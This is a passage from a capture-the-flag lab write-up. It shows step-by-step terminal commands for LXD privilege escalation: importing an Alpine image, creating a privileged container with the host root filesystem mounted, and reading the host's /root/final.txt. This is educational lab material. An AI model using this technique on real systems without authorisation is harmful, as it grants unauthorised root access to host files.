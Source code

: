 14. The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

```
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
<-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
Error: open alpine-v3.12-x86_64-20200623_1255.tar.gz: no such file or directory
www-data@ubuntu:/var/www$ ls 
ls 
alpine-v3.12-x86_64-20201008_2055.tar.gz  html
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine                   
<v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
www-data@ubuntu:/var/www$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myalpine | f2a9284c04f4 | no     | alpine v3.12 (20201008_20:55) | x86_64 | 3.04MB | Oct 8, 2020 at 6:59pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
www-data@ubuntu:/var/www$ lxc init myalpine joker -c security.privileged=true
lxc init myalpine joker -c security.privileged=true
Creating joker
www-data@ubuntu:/var/www$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker
www-data@ubuntu:/var/www$ lxc start joker
lxc start joker
www-data@ubuntu:/var/www$ lxc exec joker /bin/sh
lxc exec joker /bin/sh
```

15. What is the name of the file in the /root directory?

```
~ # ^[[26;5Rcat /mnt/root/root/final.txt
cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
~ # ^[[26;5R
```